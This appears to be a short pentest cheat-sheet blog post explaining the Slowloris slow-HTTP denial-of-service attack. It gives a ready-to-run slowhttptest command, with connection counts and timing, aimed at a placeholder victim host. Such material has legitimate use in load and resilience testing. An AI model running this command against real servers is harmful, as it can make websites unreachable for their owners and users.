 ```yaml
---
layout: post
title:  "Slowhttptest"
categories: scan deny
summary: Slowlori attack is opening connections to HTTP server and keeps connections open
---
```


{% include instructions.md %}

### {{page.title}}
Slowlori attack is opening connections to HTTP server and keeps connections open. This makes web server to be very slow or unreachable.

Open 1000 connection and send only unfinished HTTP requests. Open 200 new connections per second and keep connections open by sending GET method in every 10 second with maximum length of 24 and wait 3 seconds for response.
```shell
# slowhttptest -c 1000 -H -i 10 -r 200 -t GET -u http://[victim ip address or domain] -x 24 -p 3
```